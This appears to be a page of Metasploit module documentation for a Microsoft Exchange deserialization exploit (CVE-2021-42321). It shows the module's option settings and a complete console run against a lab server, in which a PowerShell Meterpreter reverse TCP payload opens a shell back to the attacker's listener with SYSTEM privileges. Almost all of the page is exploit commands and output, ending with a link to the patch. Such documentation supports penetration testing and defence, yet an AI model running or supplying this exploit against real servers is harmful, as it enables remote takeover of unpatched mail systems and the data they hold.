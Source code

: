 ```
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        192.168.159.42   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         443              yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSL           true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI     /                yes       Base path
   URIPATH                        no        The URI to use for this exploit (default is random)
   VHOST                          no        HTTP server virtual host


Payload options (cmd/windows/powershell/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.250.134  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Target is an Exchange Server!
[+] The target appears to be vulnerable. Exchange Server 15.1.2375.7 is vulnerable to CVE-2021-42321
[*] Getting the user's inbox folder's ID and ChangeKey ID...
[+] ChangeKey value for Inbox folder is AQAAABYAAAD9j/m9iNuTRpA5mrD5EV0AAAAACmbL
[+] ID value for Inbox folder is AQMkADU1ADBhYjYzMi02MTQ3LTRlOTEtYjU1ADAtN2M0ZDBhYjYzODVlAC4AAAMhko4gUQEoR6mlLklj/zwrAQD9j/m9iNuTRpA5mrD5EV0AAAMBDAAAAA==
[*] Deleting the user configuration object associated with Inbox folder...
[!] Was not able to successfully delete the existing user configuration on the Inbox folder!
[!] Sometimes this may occur when there is not an existing config applied to the Inbox folder (default 2016 installs have this issue)!
[*] Creating the malicious user configuration object on the Inbox folder!
[+] Successfully created the malicious user configuration object and associated with the Inbox folder!
[*] Attempting to deserialize the user configuration object using a GetClientAccessToken request...
[*] Sending stage (175686 bytes) to 192.168.250.237
[*] Meterpreter session 1 opened (192.168.250.134:4444 -> 192.168.250.237:60610) at 2022-08-16 15:56:01 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-BPID95ACQ7E
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : EXCHG
```

[KB5008631]: https://support.microsoft.com/en-gb/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-january-11-2022-kb5008631-2ee4d1f3-8341-4a4d-86be-4b73bc944f1b